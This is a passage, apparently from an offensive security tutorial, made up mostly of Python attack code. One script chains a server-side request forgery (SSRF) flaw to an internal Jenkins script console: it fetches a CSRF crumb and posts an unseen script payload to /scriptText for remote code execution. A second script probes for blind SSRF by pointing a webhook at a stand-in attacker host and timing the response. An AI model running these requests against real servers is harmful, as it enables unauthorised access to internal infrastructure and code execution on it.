 ```python
    "url": "http://internal-jenkins:8080/crumbIssuer/api/json"
})
crumb_data = crumb_response.json()
crumb = crumb_data.get("crumb")

# Build the form data for the script console
form_data = {
    "script": jenkins_payload,
    "Jenkins-Crumb": crumb
}

# Encode the form data for proper transmission
encoded_data = "&".join([f"{k}={urllib.parse.quote(v)}" for k, v in form_data.items()])

# Use SSRF to hit the Jenkins script console
ssrf_payload = {
    "url": f"http://internal-jenkins:8080/scriptText",
    "method": "POST",
    "data": encoded_data,
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    }
}

# Execute the attack
response = requests.post(target, json=ssrf_payload)
print(response.text)
```

## Blind SSRF Techniques

### Detection Methods for Blind SSRF

When direct output isn't visible, use these techniques:

1. **Time-based detection**:
   
```python
import requests
import time

# Vulnerable endpoint
target = "https://vulnerable-app.com/webhook-config"

# Test with a slow responding endpoint
start_time = time.time()
requests.post(target, json={
    "webhook_url": "http://attacker.com/delay?sleep=5000"
})
end_time = time.time()

# If response time > 5 seconds, likely vulnerable to SSRF
print(f"Response time: {end_time - start_time} seconds")
```
